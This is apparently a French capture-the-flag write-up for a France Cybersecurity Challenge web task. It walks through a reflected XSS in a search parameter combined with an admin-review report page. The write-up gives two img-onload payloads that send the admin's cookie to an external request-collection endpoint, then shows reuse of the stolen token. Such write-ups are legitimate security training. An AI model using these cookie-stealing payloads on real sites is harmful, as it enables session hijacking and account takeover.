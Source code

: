 Le paramètre "search" est vulnérable au XSS
(on peut lui donner `<script>alert(1)</script>` et il affiche "1")

Entrer ";" fait bugger la base de données mais on a pas l'air de pouvoir injecter de truc. Ça ressemble plus à un chall XSS/CSRF que SQLi donc j'ai pas cherché plus loin dans cette direction et je me suis concentré sur le CSRF

On a un cookie ("token=xxxxxxxx") et la page de flag nous dit que notre token est invalide : on suppose que l'admin a aussi son cookie, il faut qu'on lui pique.

En plus de search, on a la page de report comme vecteur d'attaque.
Elle prend une url et la log quelque part en attendant la "review manuelle"/.
On peut probablement l'utiliser en conjonction avec search pour récupérer le cookie de l'admin et se l'envoyer quelque part.

On crée un endpoint sur requestbin pour récupérer le cookie une fois que l'admin aura cliqué sur notre lien malveillant (https://eoulvrfdli.m.pipedream.net)

Et on crée notre payload

`https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<img onload=this.src='https://eoulvrfdli.m.pipedream.net?c='+document.cookie src="https://github.com/favicon.ico"/>`

Ça marche mais le paramètre "c" est vide. Probablement parce que l'URL le décode comme un espace et n'ajoute pas document.cookie au bazar, on réécrit le même sans le "+"

`https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<img onload=this.src=\`https://eoulvrfdli.m.pipedream.net?c=${document.cookie}\` src="https://github.com/favicon.ico"/>`

Et on récupère le token admin :

token=O9Mv3sFaQD1UpQRLCXVOCzCi0dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

On a juste à aller sur la page flag en éditant manuellement les headers de notre requête pour remplacer notre token par celui de l'admin (ça se fait bien avec les outils natifs de FF si t'as la flemme d'installer autre chose)

